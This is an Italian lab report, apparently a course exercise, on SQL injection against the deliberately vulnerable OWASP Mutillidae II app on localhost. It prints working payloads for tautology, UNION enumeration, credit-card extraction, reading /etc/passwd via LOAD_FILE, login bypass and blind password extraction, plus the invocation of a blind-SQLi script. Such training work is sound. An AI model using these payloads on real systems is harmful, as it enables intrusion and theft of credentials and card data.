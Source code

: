 # Relazione – Esercitazione SQL Injection

## Introduzione

Questa esercitazione è dedicata all'analisi e allo sfruttamento delle vulnerabilità SQL Injection all'interno della piattaforma OWASP Mutillidae II. Si tratta di un'applicazione web vulnerabile, sviluppata per finalità didattiche, che permette di simulare e studiare scenari di attacco comuni in un ambiente controllato e legale.

L'obiettivo dell'esercitazione è acquisire dimestichezza con le principali tecniche di SQL Injection, comprendendone le implicazioni in termini di sicurezza e imparando a sfruttarle per accedere a dati riservati o compromettere l'autenticazione degli utenti.

Mutillidae è eseguibile tramite la macchina virtuale fornita dal corso e accessibile all’indirizzo:
```
http://127.0.0.1/mutillidae/
```

L’esercitazione si compone di sette esercizi di complessità crescente, elencati di seguito con una descrizione dettagliata delle tecniche utilizzate e dei risultati ottenuti.

---

# Esercizio 1 – Testare le vulnerabilità

Obiettivo: Effettuare semplici query SQL per verificare che l’applicazione web è vulnerabile a SQL Injection.

Inserendo un singolo apice (`'`) nel campo *username* si provoca un errore SQL, segno che l'applicazione è vulnerabile. Di seguito un estratto del messaggio di errore generato da Mutillidae:

| **Campo**              | **Valore**                                                                                                                                                                                                                                                |
|------------------------|------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| **File**               | /var/www/html/mutillidae/classes/MySQLHandler.php                                                                                                                                                                                                         |
| **Linea**              | 165                                                                                                                                                                                                                                                       |
| **Codice errore**      | 1064 – SQL syntax error                                                                                                                                                                                                                                   |
| **Query eseguita**     | SELECT * FROM accounts WHERE username=''' AND password='''                                                                                                                                                                                               |
| **Messaggio**          | You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near '''' AND password=''' at line 2                                                                                 |

---

# Esercizio 2 – Tautologia di base

Obiettivo: Sfruttare alcune tautologie di base per ottenere la lista degli utenti e le rispettive password.

Utilizzando la stringa `' OR 1=1 #` è possibile forzare la clausola WHERE a restituire sempre vero, ottenendo così la lista completa degli utenti.

Esempio:
```sql
' OR 1=1 #
```

Output (estratto):
```
Username=admin      Password=adminpass       Signature=g0t r00t?
Username=john       Password=monkey          Signature=I like the smell of confunk
...
```

---

# Esercizio 3 – Uso della UNION per recuperare altre informazioni

Obiettivo: Recuperare le informazioni delle carte di credito degli utenti tramite SQL Injection, ed eventualmente visualizzare il contenuto di file di sistema.

## 3.1 – Ottenere nomi tabelle e colonne

```sql
' UNION SELECT 1,table_schema,table_type,table_name,5,6,7 FROM information_schema.tables #
```

```sql
' UNION SELECT 1,column_name,3,4,5,6,7 FROM information_schema.columns WHERE table_schema = "nowasp" AND table_name = "credit_cards" #
```

## 3.2 – Esfiltrazione dati sensibili

```sql
' UNION SELECT ccid,ccnumber,ccv,expiration,5,6,7 FROM credit_cards #
```

Output (interessante):
```
Username=1234567812345678
Password=627
Signature=2018-11-01
```

## 3.3 – Lettura file locali

```sql
' UNION SELECT 1,LOAD_FILE('/etc/passwd'),3,4,5,6,7 FROM credit_cards #
```

Output:
```
Username=root:x:0:0:root:/root:/bin/bash ...
```

---

# Esercizio 4 – Autenticazione

Obiettivo: Autenticarsi senza inserire credenziali valide.

Esempio:
```sql
admin' #
```

La query diventa:
```sql
SELECT username FROM accounts WHERE username='admin' #';
```

Risultato:
```
Logged In Admin: admin (g0t r00t?)
```

---

# Esercizio 5 – Autenticazione con utente specifico

Obiettivo: Autenticarsi come un utente noto senza conoscere la password.

Dato che `scotty` è presente nel database (visto nell’esercizio 2), si può usare:
```sql
scotty' #
```

Risultato:
```
Logged In User: scotty (Scotty do)
```

---

# Esercizio 6 – Autenticazione Blind

Obiettivo: Determinare la password dell’utente `john` tramite tecniche di Blind SQL Injection.

## Passaggi:

1. **Verifica della lunghezza**:
```sql
john' AND LENGTH(password) = 9 #
```

2. **Estrazione carattere per carattere**:
```sql
john' AND SUBSTRING(password, 1, 1) = 'm' #
```

3. **Automazione tramite script Python**

È stato realizzato uno script (`blind_sqli_merged.py`) che:
- Calcola la baseline della risposta per un caso falso;
- Individua tutte le lunghezze compatibili con l’utente;
- Estrae la password con tecnica blind a prefisso;
- Supporta la presenza di più utenti con stesso nome tramite `LIMIT 1 OFFSET n`.

Esecuzione tipica:
```bash
python3 blind_sqli_merged.py -U http://127.0.0.1/mutillidae/index.php?page=login.php -u john -m 50 -v
```

---

# Esercizio 7 – Creazione pagina PHP

[Da completare: questo esercizio richiede la creazione di una pagina PHP personalizzata.]

---

